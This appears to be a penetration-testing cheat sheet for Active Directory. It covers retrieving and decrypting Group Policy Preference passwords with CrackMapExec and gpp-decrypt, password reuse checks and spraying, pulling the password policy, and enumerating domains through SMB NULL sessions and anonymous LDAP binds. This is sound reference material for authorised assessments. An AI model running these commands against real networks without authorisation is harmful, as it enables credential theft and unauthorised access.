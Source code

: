 #### Locating & Retrieving GPP Passwords with CrackMapExec
```bash
$ crackmapexec smb -L | grep gpp
```

#### Decrypting the Password with gpp-decrypt
```bash
$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE
```

GPP passwords can be located by searching or manually browsing the SYSVOL share or using tools such as Get-GPPPassword.ps1, the GPP Metasploit Post Module, and other Python/Ruby scripts which will locate the GPP and return the decrypted cpassword value. CrackMapExec also has two modules for locating and retrieving GPP passwords. One quick tip to consider during engagements: Often, GPP passwords are defined for legacy accounts, and you may therefore retrieve and decrypt the password for a locked or deleted account. However, it is worth attempting to password spray internally with this password (especially if it is unique). Password re-use is widespread, and the GPP password combined with password spraying could result in further access.

* * *

# Clear Text Password 
## Check for Password Reuse
[ldap,mssql,smb,ssh,winrm]
```bash
$ crackmapexec <protocol> hosts.lst -u <username> -p <password>
```


## Enumerating the Password Policy
* With valid domain credentials, the password policy can also be obtained remotely using tools such as CrackMapExec or rpcclient.

### Linux
```bash
$ crackmapexec smb <DC_IP> -u <USERNAME> -p <PASSWORD> --pass-pol
```

#### SMB NULL Sessions
SMB NULL sessions allow an unauthenticated attacker to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy. SMB NULL session misconfigurations are often the result of legacy Domain Controllers being upgraded in place, ultimately bringing along insecure configurations, which existed by default in older versions of Windows Server.

```bash
# Using rpcclient
$ rpcclient -U "" -N <DC>
rpcclient $> querydominfo # check SMB for more queries


# Using enum4linux
$ enum4linux -P <DC>


# Using enum4linux-ng
$ enum4linux-ng -P <DC> -oA <FILE>
$ cat <FILE>.json 


# LDAP Anonymous Bind
$ ldapsearch -h <DC> -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
